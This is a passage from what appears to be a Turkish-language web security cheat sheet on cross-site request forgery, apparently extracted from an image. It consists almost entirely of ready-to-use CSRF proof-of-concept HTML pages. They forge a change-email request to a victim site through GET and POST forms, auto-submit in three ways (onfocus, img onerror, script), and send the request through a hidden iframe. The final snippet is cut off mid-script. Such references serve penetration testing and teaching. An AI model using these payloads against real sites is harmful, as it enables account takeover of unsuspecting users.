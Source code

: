 ```html
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>
history.pushState("", "", "/")
</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit()
</script>
</body>
</html>
```
### Form POST isteği
```html
<html>
<body>
<script>
history.pushState("", "", "/")
</script>
<form
method="POST"
action="https://victim.net/email/change-email"
id="csrfform">
<input
type="hidden"
name="email"
value="some@email.com"
autofocus
onfocus="csrfform.submit();" />
<!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src="x" onerror="csrfform.submit();" />
<!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit() //Way 3 to autosubmit
</script>
</body>
</html>
```
### Form POST isteği iframe aracılığıyla
```html
<!--
The request is sent through the iframe withuot reloading the page
-->
<html>
<body>
<iframe style="display:none" name="csrfframe"></iframe>
<form method="POST" action="/change-email" id="csrfform" target="csrfframe">
<input
type="hidden"
name="email"
value="some@email.com"
autofocus
onfocus="csrfform.submit();" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit()
```
